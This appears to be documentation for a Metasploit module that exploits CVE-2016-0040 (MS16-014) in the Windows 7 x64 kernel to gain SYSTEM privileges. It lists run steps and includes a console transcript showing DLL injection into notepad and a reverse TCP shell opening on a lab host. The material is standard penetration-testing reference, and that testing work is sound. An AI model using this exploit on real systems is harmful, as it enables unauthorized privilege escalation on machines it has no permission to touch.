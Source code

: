 ## Introduction

This module exploits an uninitialized stack variable vulnerability
present in the WMI subsystem  of `ntoskrnl`.  The vulnerability is
described by MS16-014 and CVE-2016-0040.  The module allows the user to
elevate privileges (NT AUTHORITY\SYSTEM)

This module works against Windows7x64 SP0 and SP1
It was tested on and fails against Windows 8x64 - Windows 10x64 r1703

## Verification Steps

- [ ] obtain a session on the target system
- [ ] set the `payload`
- [ ] set the `session`
- [ ] `run`

## Scenarios

### Windows 7x64 SP1

```
meterpreter > background
[*] Backgrounding session 0...
msf exploit(handler) > use exploits/windows/local/ms16_014_wmi_recv_notif
msf exploit(ms16_014_wmi_recv_notif) > set session 0
session => 0
msf exploit(ms16_014_wmi_recv_notif) > exploit

[*] Started reverse TCP handler on 172.16.38.170:4444 
[*] Launching notepad to host the exploit...
[+] Process 3948 launched.
[*] Reflectively injecting the exploit DLL into 3948...
[*] Injecting exploit into 3948...
[*] Exploit injected. Injecting payload into 3948...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (172.16.38.170:4444 -> 172.16.38.129:49695) at 2018-03-07 08:27:57 -0800

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\whoami
whoami
SYSTEM
```
